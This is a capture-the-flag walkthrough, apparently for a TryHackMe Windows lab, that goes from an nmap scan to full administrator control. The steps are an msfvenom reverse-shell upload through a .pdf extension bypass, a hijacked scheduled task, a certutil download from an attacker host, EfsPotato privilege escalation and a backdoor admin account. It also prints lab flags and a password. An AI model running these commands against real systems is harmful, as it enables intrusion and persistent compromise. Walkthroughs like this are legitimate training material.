 # Windows Machine

## Machine Info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt 10.200.150.151 -Pn

Nmap scan report for 10.200.150.151
Host is up (0.042s latency).
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
443/tcp   open  ssl/http      Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.0.30)
|_http-title: PDF Upload Analyzer
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-14T09:44:01+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Jobify
| Not valid before: 2025-04-21T16:11:54
|_Not valid after:  2025-10-21T16:11:54
| rdp-ntlm-info: 
|   Target_Name: JOBIFY
|   NetBIOS_Domain_Name: JOBIFY
|   NetBIOS_Computer_Name: JOBIFY
|   DNS_Domain_Name: Jobify
|   DNS_Computer_Name: Jobify
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-14T09:43:21+00:00
8081/tcp  open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.0.30)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
|_http-title: PDF Upload Analyzer
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (92%), Microsoft Windows 10 1903 - 21H1 (85%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-14T09:43:24
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```



## Initial Access

### File Upload Bypass

With nmap ports scan an attacker can view that there is a HTTP server on 8081 port.

This page has a Form where a user can upload his CV only in pdf format. An attacker can try to bypass the restriction extention format to upload a executable file that will establish a reverse shell.

Using msfvenom tool an attacker can craft a executable reverse shell payload:&#x20;

{% code overflow="wrap" %}
```
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.250.1.6 LPORT=9009 -f exe -o cv.exe
```
{% endcode %}

An attacker can upload this file intercepting the request with Burp Suite, and add the .pdf extention at the end of the `filename` parameter, making the file name `cv.exe.pdf` . In this way an attacker can make a MIME-type bypass method to upload a reverse shell into the site.

Doing a directory enumeration an attacker can retrive the directory where the cvs will be store.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.200.150.151:8081/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
```
{% endcode %}

The directory that contains the cvs is the /uploads directory accessible from the webpage. An attacker can open the payload and the reverse shell will establish.

The attacker has obtained the initial access as user `jobify\hr`.

### User flag

```
more C:\user.txt
THM{ab94ee51-8866-407d-b7fd-82235e94c787}
```



## Privilege Escalation

Looking around the machine as hr account, an attacker can found the plain-text credentials in the file `C:\Users\hr\Desktop\notes.txt` that contains this message:

```
Hey,

Just a heads-up before I forget � the creds for the HR account are still the default. Not ideal, I know, but I haven�t had time to rotate them yet. ??

Account: hr  
Password: TryH@cKMe9#21TryH@cKMe9#21
```

An attacker with hr access can view all Scheduled tasks of the machine with this commands:

```
schtasks /query /fo LIST /v
```

And he can find this vulnerable Scheduled Task:

<pre><code>Folder: \
HostName:                             JOBIFY
TaskName:                             \Monitor
Next Run Time:                        N/A
Status:                               Running
Logon Mode:                           Interactive/Background
Last Run Time:                        8/14/2025 1:00:33 PM
Last Result:                          267009
Author:                               JOBIFY\Administrator
Task To Run:                          powershell.exe -ExecutionPolicy Bypass -File C:\Users\hr\Documents\Task\file.ps1
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
<strong>Run As User:                          hr
</strong>Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
</code></pre>

This task executes a ps1 file as Administrator in the hr's Documents.

An attacker can check the file's rights using this command:

```
icacls file.ps1
file.ps1 NT AUTHORITY\SYSTEM:(F)
         BUILTIN\Administrators:(F)
         JOBIFY\Administrator:(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         JOBIFY\hr:(I)(F)
```

The hr's account has Full rights to this file. An attacker can change this file with a ps1 reverse shell and obtain a shell as Administrator.

Once that an attacker changes the file.ps1 with a reverse shell payload can use this command to restart the Scheduled Task

```
schtasks /run /tn Monitor
```





```
certutil -urlcache -f http://10.250.1.6/winPEAS.ps1 winPEAS.ps1
```



```
C:\Users\hr\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt


```



***

An attacker with access to the web server machine could upload a webshell into the `C:\xampp\htdocs\uploads` direectory.

The Windows service has by default the SeImpersonatePrivilege privilege, that can be used by an attacker to escalate privilege and comprimise the machine.

To verify this an attacker has to execute this command to the Webshell uploaded:

```
whoami /all
```

In this case the service has the SeImpersonatePrivilege privilege and an attacker can perform a privilege escalation.

There are many technique to exploit SeImpersonatePrivilege right, a common is used the EfsPotato executable. This file has need to be compile into the target machine and then when the .exe file an attacker can execute command as `nt autority\system` .

This command is used from an attacker to compile the .cs file transfered to local machine.

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
```

And this command is used from an attacker to execute command as nt autority\system, in this case the command make a reverse shell as privileged user.

{% code overflow="wrap" %}
```
EfsPotato.exe "powershell -e PAYLOAD_REDACTED"
```
{% endcode %}

With this privilege an attacker can add a new user and add it to the Administrators group.

With this new account created an attacker takes parsistance into target machine as administrator.

```bash
net user Administrator2 Password123! /add
net localgroup Administrators Administrator /add
```



### Root flag

```bash
more root.txt
THM{07b4be27-2112-468d-87d8-6b8e9e372eb5}
```
